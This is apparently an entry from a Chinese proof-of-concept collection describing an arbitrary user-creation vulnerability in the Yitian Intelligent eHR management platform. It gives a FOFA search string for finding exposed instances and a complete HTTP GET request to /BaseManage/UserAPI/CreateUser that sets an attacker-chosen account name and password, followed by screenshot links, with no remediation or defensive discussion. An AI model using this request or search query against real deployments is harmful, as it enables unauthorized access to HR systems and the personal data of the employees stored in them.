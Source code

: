 ## 易天智能eHR管理平台任意用户添加漏洞

温州市易天信息科技有限公司主要经营易天人力资源管理软件，是一家致力于人力资源管理软件产品研发的高科技公司。易天智能eHR管理平台任意用户添加漏洞。

## fofa

```
body="易天智能eHR管理平台"
```

## poc

```
GET /BaseManage/UserAPI/CreateUser?Account=stc&Password=123456&OuterID=888 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: close
Priority: u=1
```

![image-20240621193645026](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211936086.png)

![image-20240621193657700](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406211936732.png)